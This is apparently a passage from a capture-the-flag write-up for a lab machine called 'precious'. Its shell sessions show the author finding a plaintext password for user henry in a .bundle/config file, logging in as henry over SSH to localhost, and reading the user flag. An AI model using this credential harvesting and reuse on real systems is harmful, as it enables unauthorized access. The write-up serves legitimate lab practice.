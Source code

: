 ```bash
```

- digging through random files in the entry point directory and then home directory, we find henry's username and password - henry:Q3c1AqGHtoI0aXAYFH
```bash
ruby@precious:/var/www/pdfapp$ find . -type f
./public/stylesheets/style.css
./config.ru
./config/environment.rb
./Gemfile
./app/views/index.erb
./app/controllers/pdf.rb
./Gemfile.lock
ruby@precious:/var/www/pdfapp$ cd 
ruby@precious:~$ find . -type f
./.bundle/config
./.profile
./.cache/fontconfig/CACHEDIR.TAG
./.cache/fontconfig/8750a791-6268-4630-a416-eea4309e7c79-le64.cache-7
./.cache/fontconfig/ef96da78-736b-4d54-855c-6cd6306b88f9-le64.cache-7
./.cache/fontconfig/7fbdb48c-391b-4ace-afa2-3f01182fb901-le64.cache-7
./.cache/fontconfig/cb67f001-8986-4483-92bd-8d975c0d33c3-le64.cache-7
./.bash_logout
./.bashrc
ruby@precious:~$ cat ./.bundle/config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

- ssh in as henry on local host with password given
```bash
ruby@precious:~$ ssh henry@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:kRywGtzD4AwSK3m1ALIMjgI7W2SqImzsG5qPcTSavFU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
henry@localhost's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ 
```

- looking through files in Henry's home directory and he has a user.txt file
```bash
henry@precious:~$ ls -aslp
total 24
4 drwxr-xr-x 2 henry henry 4096 Oct 26  2022 ./
4 drwxr-xr-x 4 root  root  4096 Oct 26  2022 ../
0 lrwxrwxrwx 1 root  root     9 Sep 26  2022 .bash_history -> /dev/null
4 -rw-r--r-- 1 henry henry  220 Sep 26  2022 .bash_logout
4 -rw-r--r-- 1 henry henry 3526 Sep 26  2022 .bashrc
4 -rw-r--r-- 1 henry henry  807 Sep 26  2022 .profile
4 -rw-r----- 1 root  henry   33 Nov 16 12:13 user.txt
henry@precious:~$ cat user.txt
fc9972e894315dab7d5d5227b52fa0b2
```
